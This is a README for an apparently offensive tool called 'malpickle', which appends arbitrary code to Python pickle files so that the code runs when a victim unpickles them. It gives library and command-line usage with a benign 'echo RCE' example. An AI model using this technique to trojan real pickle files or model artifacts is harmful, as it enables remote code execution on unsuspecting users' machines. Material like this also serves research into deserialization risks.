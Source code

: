 # malpickle
Insert code into pickles

How to use as a library:

    code = "echo RCE"
    evil_pickle_stream = malpickle.insert_code(code, pickle_stream)

    # evil pickle stream is sent to victim
    # victim unpickles stream
    data = pickle.loads(pickle_stream) # echos RCE, data is unaffected

How to use as a program:

    python -m malpickle.main pickle_file code_file

This modifies pickle_file in place, adding a copy of the code from code_file.

When unpickled, pickle_file will execute the attached code.


# Dependencies
None!

# Installation

- Download the contents of the repo and run `python setup.py install` (using `sudo` if appropriate)
